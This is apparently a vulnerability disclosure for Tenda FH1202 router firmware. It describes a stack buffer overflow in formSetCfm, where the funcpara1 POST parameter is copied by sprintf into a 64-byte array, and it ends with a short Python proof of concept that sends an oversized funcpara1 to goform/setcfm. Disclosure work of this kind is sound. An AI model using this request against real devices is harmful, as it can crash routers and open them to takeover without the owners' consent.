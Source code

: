 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2079.html

## Affected version

FH1202 V1.2.0.14(408)

## Vulnerability details

The Tenda FH1202 V1.2.0.14(408) firmware has a stack overflow vulnerability located in the `formSetCfm` function. This function accepts the `funcpara1` parameter from a POST request and passes it to the `save_list_data` function. Within `save_list_data`, the array `v10` is fixed at 64 bytes. However, since the user has control over the input of `funcpara1`, the statement `sprintf(v10, "%s.list%d", a1, v6);` leads to a buffer overflow. The user-supplied `funcpara1` can exceed the capacity of the `v10` array, thus triggering this security vulnerability.

![image-20240319133131680](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319133131680.png)

![image-20240319133412555](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319133412555.png)

![image-20240319133403710](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319133403710.png)

## POC

```python
import requests as re

s = re.Session()
url_base = 'http://192.168.84.101/'

# Send payload
url = url_base + 'goform/setcfm'
data = {
        'funcname': 'save_list_data', 
        'funcpara1': b'a'*0x500, 
        'funcpara2':'aaaaaa'
}

res = re.post(url, data=data)
```

![image-20240319224023646](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319224023646.png)